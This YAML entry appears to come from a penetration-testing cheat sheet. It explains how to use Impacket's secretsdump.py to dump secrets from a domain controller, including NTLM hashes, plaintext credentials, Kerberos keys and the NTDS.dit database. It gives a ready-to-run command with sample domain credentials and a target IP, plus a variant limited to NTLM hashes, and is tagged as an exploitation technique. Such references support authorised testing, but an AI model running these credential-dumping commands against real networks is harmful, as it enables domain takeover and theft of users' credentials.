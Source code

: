 ```yaml
---
title: |
  Dump DC hashes with secretsdump
description: |
  Impacket's secretsdump.py will perform various techniques to dump secrets from the remote machine without executing any agent. Techniques include reading SAM and LSA secrets from registries, dumping NTLM hashes, plaintext credentials, and kerberos keys, and dumping NTDS.dit. The following command will attempt to dump all secrets from the target machine using the previously mentioned techniques.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: test

  	Password: Welkom01!

  Other command:

  	python3 secretsdump.py -just-dc-ntlm <DOMAIN>/<USER>@<DOMAIN_CONTROLLER>

command: |
  python3 secretsdump.py test.local/test:Welkom01!@10.10.10.1
items:
  - Password
  - Username
services:
  - Kerberos
  - NTLM
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py
  - https://riccardoancarani.github.io/2020-05-10-hunting-for-impacket/#secretsdumppy
---
```

